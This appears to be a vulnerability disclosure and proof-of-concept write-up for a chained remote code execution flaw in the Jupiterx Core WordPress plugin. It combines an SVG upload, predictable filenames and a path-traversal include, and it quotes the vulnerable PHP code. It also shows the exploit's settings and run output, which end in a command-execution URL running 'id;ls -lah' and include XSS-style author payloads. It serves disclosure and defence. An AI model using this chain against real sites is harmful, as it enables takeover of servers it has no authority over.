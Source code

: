 # Jupiterx Core Authenticated (Contributor+) Remote Code Execution

The Jupiterx Core plugin version: 4.8.6 is vulnerable to an Authenticated (Contributor+) Remote Code Execution attack by chaining multiple vulnerabilities together. A user can create a form that allows arbitrary SVG uploads, a random name is give to the file but this can be brute forced due to insufficient randomness or leaked via email. This can then be paired with an SVG limited file inclusion to get remote code execution. 

## Affected Plugin

Title: Jupiterx Core
Active installations: 180,000 (https://themeforest.net/item/jupiter-multipurpose-responsive-theme)
Version: 4.8.6
Slug: jupiterx-core
Link: https://jupiterx.com/

## Root Cause

Note this remote code execution vulnerability is caused by **chaining** multiple vulnerabilities together (~3).

1. **Limited Arbitrary File Upload** - We can create a form and upload a SVG file
2. **Insufficient randomness in uploaded filenames** - A limited brute for allows us to guess the uploaded filename
3. **Limited File Inclusion** - An elementor video widget allows arbitrary inclusion of SVG files via a path traversal that will be executed as PHP files if they contain any PHP tags.

### Limited Arbitrary File Upload Code

In `includes/extensions/raven/includes/modules/forms/classes/ajax-handler.php` on line 434 the `move_uploaded_file` function is used to move a file after prevent some blacklisted file extensions.

```php
$move_new_file = @move_uploaded_file( $file['tmp_name'], $new_file );
```

### Insufficient Randomness in Filename Code

In `includes/extensions/raven/includes/modules/forms/classes/ajax-handler.php` on line 423 the `uniqid` function is used to generate a "random" filename for the upload file:

```php
$filename       = uniqid() . '.' . $file_extension;
```

However, this is not random and can be guessed if a small enough time-window for the generation is known.

### File Inclusion Code

In `includes/extensions/raven/includes/modules/video/widgets/video.php` on line 1360 user-controllable parameter(s) `device_frame` is used in an `include` statement after going through the `get_svg` function:

```php
<?php include Utils::get_svg( 'frame-' . $settings['device_frame'] ); ?>
```

Where `get_svg` is defined in `includes/extensions/raven/includes/utils.php` on lines 82-87 and simply concatenates the input into a path, allowing for path traversal to include any SVG file on the system:

```php
public static function get_svg( $file_name = '' ) {
    if ( empty( $file_name ) ) {
        return $file_name;
    }
    
    return Plugin::$plugin_path . 'assets/img/' . $file_name . '.svg';
```

## Proof of Concept

**Note**: For this exploit to work it requires either: 
1. A limited brute force that is done by guessing a value of `uniqid` which is time-based. This means that the source and target should have synced times.
2. Email set up, the form data is emailed to a user-controllable email address, so we can leak the filenames to ourselves (THIS IS THE EASIER METHOD)

1. Install and activate the `jupiterx` theme and the `elementor` and `jupiterx-core` plugins
2. Modify the exploit for your target:
```python
USER = 'user'
PASSWORD = 'user'
METHOD = 'EMAIL'  # Either BRUTE or EMAIL (RECOMMENDED)
EMAIL_ADDRESS = 'attacker@vulnerability.com'  # If using email enter an email address to receive the filename to
TARGET = 'http://wordpress.local:1337'  # No trailing slash
```
3. Run the Python PoC:

```
❯ python3 exploit.py
[+] Login Successful
[+] Nonce: c3c580ab2d
[+] Next Post ID: 382
[+] API Nonce: c00c13af67
[+] Post ID: 382
{'success': True, 'data': {'responses': {'save_builder': {'success': True, 'code': 200, 'data': {'status': 'pending', 'config': {'document': {'last_edited': 'Last edited on <time>Jan 6, 17:53</time> by user"id="x"tabindex="1"autofocus="1"onfocus="alert(`userf`)"x= user"id="x"tabindex="1"autofocus="1"onfocus="alert(`userl`)"x=', 'urls': {'wp_preview': 'http://wordpress.local:1337/?p=382&preview_id=382&preview_nonce=491384df60&preview=true'}, 'status': {'value': 'pending', 'label': 'Pending'}, 'revisions': {'current_id': 382}}}, 'latest_revisions': [{'id': 382, 'author': 'user"id="x"tabindex="1"autofocus="1"onfocus="alert(`userf`)"x= user"id="x"tabindex="1"autofocus="1"onfocus="alert(`userl`)"x=', 'timestamp': 1736186009, 'date': '<time>1 second</time> ago (<time>Jan 6 @ 17:53</time>)', 'type': 'current', 'typeLabel': 'Current Version', 'gravatar': "<img alt='' src='http://2.gravatar.com/avatar/529f87bc7a8018879c05c249c93d3b44?s=22&#038;d=mm&#038;r=g' srcset='http://2.gravatar.com/avatar/529f87bc7a8018879c05c249c93d3b44?s=44&#038;d=mm&#038;r=g 2x' class='avatar avatar-22 photo' height='22' width='22' decoding='async'/>"}, {'id': 196, 'author': 'user"id="x"tabindex="1"autofocus="1"onfocus="alert(`userf`)"x= user"id="x"tabindex="1"autofocus="1"onfocus="alert(`userl`)"x=', 'timestamp': 1736186009, 'date': '<time>1 second</time> ago (<time>Jan 6 @ 17:53</time>)', 'type': 'revision', 'typeLabel': 'Revision', 'gravatar': "<img alt='' src='http://2.gravatar.com/avatar/529f87bc7a8018879c05c249c93d3b44?s=22&#038;d=mm&#038;r=g' srcset='http://2.gravatar.com/avatar/529f87bc7a8018879c05c249c93d3b44?s=44&#038;d=mm&#038;r=g 2x' class='avatar avatar-22 photo' height='22' width='22' decoding='async'/>"}], 'revisions_ids': [382, 196]}}}}}
[+] Created Post with form: 382
[+] Visit: http://wordpress.local:1337/?p=382
[+] Form ID: 10ab6ec
[+] Field ID: 856fd19
[+] Upload Success
[+] Window: 0.4266054630279541s (1736189757.1574607 - 1736189757.5840662)
Please enter an SVG filename, the filenames should be contained in an email you have received
Enter File Name (e.g. 677c256fe7327): 
677c273d7f7aa
[+] Found LFI!!!
[+] Visit: http://wordpress.local:1337/?p=382&cmd=id;ls%20-lah
```
4. Visit the page to observe command execution